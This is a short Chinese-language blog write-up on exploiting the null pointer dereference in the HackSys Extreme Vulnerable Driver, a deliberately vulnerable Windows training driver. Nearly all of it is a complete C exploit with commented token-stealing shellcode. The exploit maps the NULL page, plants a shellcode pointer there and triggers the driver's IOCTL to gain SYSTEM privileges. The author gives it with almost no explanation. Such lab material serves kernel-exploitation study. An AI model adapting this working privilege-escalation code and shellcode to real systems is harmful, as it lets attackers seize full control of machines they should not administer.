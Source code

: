 <small>转载请注明出处哦 :  )</small>

不是，讲道理有上一篇的铺垫这次利用也太简单了吧。

看到 NullPointerDereference.c 文件，我们的输入若不等于 MagicValue 的话 NullPointerDereference 又变为 NULL 指针，而后面不检查 NullPointerDereference 是否为 NULL 指针直接调用 NullPointerDereference->Callback()

看到这里利用方法不就是上一篇中的一环吗？若有不清楚的朋友可以先做一下池溢出，这里就什么都不解释直接贴 exp 了。

```c
// nullpointerDereference.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>
#include <Memoryapi.h>

typedef NTSTATUS(WINAPI * NtAllocateVirtualMemory_t) (HANDLE    ProcessHandle,
	PVOID     *BaseAddress,
	ULONG_PTR ZeroBits,
	PSIZE_T   RegionSize,
	ULONG     AllocationType,
	ULONG     Protect);

char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
};


int main()
{
	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));

	HMODULE hmodule = LoadLibraryA("ntdll.dll");

	NtAllocateVirtualMemory_t NtAllocateVirtualMemory = (NtAllocateVirtualMemory_t)GetProcAddress(hmodule, "NtAllocateVirtualMemory");

	if (NtAllocateVirtualMemory == NULL) {
		printf("getprocaddress failed\n");
		return 0;
	}

	PVOID baseAddress = (PVOID)1;
	ULONG regionsize = 0x100;
	NTSTATUS status = NtAllocateVirtualMemory((HANDLE)0xFFFFFFFF, &baseAddress, 0, &regionsize, 0x3000, 0x40);

	if (status != 0) {
		printf("alloc failed,error code is:%u\n", status);
		return 0;
	}
	if (!WriteProcessMemory((HANDLE)0xFFFFFFFF, (LPVOID)0x04, &ptr, 0x4, NULL)) {
		printf("write failed\n");
		return 0;
	}

	int value = 0x1;
	int *payload = &value;

	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DWORD lpBytesReturned = 0;
	DeviceIoControl(hevDevice, 0x22202b, payload, 0x4, NULL, 0, &lpBytesReturned, NULL);

	system("whoami");

    return 0;
}

```

关于堆栈平衡问题，像这种直接 NullPointerDereference->Callback() 没有参数的我们就直接 ret 就好了。

： )

---

<p align='right'>2019.9.4</p>